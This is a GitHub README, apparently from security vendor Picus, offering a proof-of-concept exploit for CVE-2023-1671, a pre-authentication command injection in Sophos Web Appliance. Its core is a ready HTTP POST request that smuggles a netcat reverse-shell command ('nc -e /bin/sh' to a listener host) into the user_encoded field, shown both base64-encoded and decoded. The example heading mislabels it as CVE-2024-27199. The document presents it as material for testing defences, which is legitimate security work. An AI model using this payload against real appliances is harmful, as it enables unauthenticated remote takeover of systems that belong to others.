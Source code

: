 # Sophos CVE-2023-1671 PoC Exploit
CISA added Sophos Web Appliance CVE-2023-1671 Command Injection vulnerability into the Known Exploited Vulnerabilities (KEV) catalog. Although it was disclosed in April 2023, CVE-2023-1671 is actively being exploited in the wild.<br><br>
In this repo, Picus provides Proof-of-Concept exploit for the CVE-2023-1671 vulnerability.

Test security controls against the CVE-2023-1671 vulnerability exploit 
--------------------------------------
Picus can help you simulate the CVE-2023-1671 vulnerability exploits for free. No setup or signup required.<br>
Use [Picus Emerging Threat Simulator](https://insights.picussecurity.com/emerging-threat-simulator-announcement?utm_source=github&utm_medium=organic+social&utm_campaign=PLS+Offensive+-+ET+Simulator) and test your defenses in a few clicks.<br> 

If you are looking for more detailed information check out our blog post: [CVE-2023-1671: Sophos Command Injection Vulnerability Exploited in the Wild](https://www.picussecurity.com/resource/blog/cve-2023-1671-sophos-command-injection-vulnerability-exploited-in-the-wild)


CVE-2023-1671 Proof-of-concept (POC)
----------------------
Sophos CVE-2023-1671 vulnerability stems from a vulnerable component named warn-proceed handler. The weakness is classified as CWE-77 and allows adversaries to manipulate input for pre-authenticated command injection. User inputs sent through "/index.php?c=blocked" using an HTTP POST request are routed to UsrBlocked.php and processed by escapeshellarg function.<br>

The example HTTP POST request below exploits CVE-2023-1671 vulnerability to establish a reverse shell connection.

#### Example CVE-2024-27199 Exploit:
```http
— Base-64 encoded
POST /index.php?c=blocked&action=continue HTTP/1.1
args_reason=filetypewarn&url=2XcjgUjbpYUmeBZwMmuiC9x9Tdy&filetype=2XcjgUjbpYUmeBZwMmuiC9x9Tdy&user=2XcjgUjbpYUmeBZwMmuiC9x9Tdy&user_encoded=JztuYyAtZSAvYmluL3NoIDE5Mi4xNjguMS40MiA0NDQ0ICM=
— Base-64 decoded

POST /index.php?c=blocked&action=continue HTTP/1.1
args_reason=filetypewarn&url=2XcjgUjbpYUmeBZwMmuiC9x9Tdy&filetype=2XcjgUjbpYUmeBZwMmuiC9x9Tdy&user=2XcjgUjbpYUmeBZwMmuiC9x9Tdy&user_encoded=';nc -e /bin/sh 192.168.1.42 4444 #
```

Disclaimer
----------
We do not have any disclamer.
